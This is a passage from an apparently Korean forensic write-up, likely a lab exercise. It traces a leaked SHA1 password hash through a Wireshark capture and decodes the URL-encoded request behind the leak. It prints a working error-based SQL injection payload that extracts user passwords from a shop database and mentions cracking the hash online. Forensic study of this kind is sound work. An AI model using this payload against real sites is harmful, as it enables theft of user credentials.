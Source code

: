 ```

유출된 해시값 중 ```D65798AAC0E5C6DF3F320F8A30E026E7EBD73A95``` 을 SHA1 복호화를 하면 패스워드를 확인할 수 있다.

*SHA1 복호화를 할 수 있는 사이트인 hashkiller 등이 지금은 안되는 것 같다...🥲*

다시 와이어샤크에서 junwon씨의 패스워드를 노출시킨 공격 쿼리문을 찾기 위해 필터링을 할 수 있다.

```
http contains D65798AAC0E5C6DF3F320F8A30E026E7EBD73A95
```

Follow -> TCP Stream 한 결과이다.

![2655](https://user-images.githubusercontent.com/66156026/213153250-8c64b746-4073-4dcb-8234-c40f59fa7595.png)

네모 박스 부분은 URL 인코딩 값이다. 이 부분을 디코딩해보면 SQL Injection 공격에 사용된 구문이 나온다.

디코딩은 
[여기](https://www.convertstring.com/ko/EncodeDecode/UrlDecode) 를 사용했다.

```
GET /items.php?num=1 AND (SELECT 4608 FROM(SELECT 
COUNT(*),CONCAT(0x717a707071,(SELECT MID((IFNULL(CAST(
user_pw AS CHAR),0x20)),1,50) FROM dmshop.shop_user ORDER BY id LIMIT 1,1)
,0x7178767a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)
```


